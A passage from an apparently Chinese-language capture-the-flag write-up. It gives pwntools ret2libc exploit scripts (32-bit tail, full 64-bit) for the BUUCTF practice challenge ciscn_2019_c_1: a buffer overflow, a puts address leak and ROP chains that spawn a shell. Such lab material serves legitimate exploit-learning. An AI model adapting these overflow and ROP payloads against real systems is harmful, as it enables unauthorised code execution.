 ```python
bin_sh=base+libc.dump('str_bin_sh')
print(hex(system_addr))
print(hex(bin_sh))

payload2=flat(cyclic(0x8c),p32(system_addr),p32(1),p32(bin_sh))
p.sendline(payload2)
p.interactive()
```



### 64位

```python
#题目来自Buuctf ciscn_2019_c_1
from pwn import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
#p = remote('node5.buuoj.cn',28352)
p = process('./ciscn_2019_c_1')
elf = ELF('./ciscn_2019_c_1')
#libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
#gdb.attach(p)

pop_rdi=0x400c83
ret_addr=0x4006b9
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
#第一次溢出，ROP出puts的真实地址
p.sendlineafter('choice!\n',b'1')
payload = flat('\0',b'A'*0x57,p64(pop_rdi),p64(puts_got),p64(puts_plt),(main_addr))
p.sendlineafter('encrypted\n',payload)
puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) #接收puts地址
########本地libc找地址#########
#libc_put = libc.sym['puts']
#base = puts_addr-libc_put
#libc_system = libc.sym['system']
#system_addr = libc_system
#libc_bin = 0x19604F
#bin_sh = base +libc_bin
##############################

#利用LibcSearcher找到地址
libc = LibcSearcher('puts',puts_addr)
base = puts_addr - libc.dump('puts') #基地址
system_addr = base+libc.dump('system')
bin_sh = base+libc.dump('str_bin_sh')

#二次溢出，取shell
p.sendlineafter('choice!\n',b'1')
payload2 = flat(b'\0',b'A'*0x57,p64(ret_addr),p64(pop_rdi),p64(bin_sh),p64(system_addr))
p.sendlineafter('encrypted\n',payload2)
p.interactive()
```
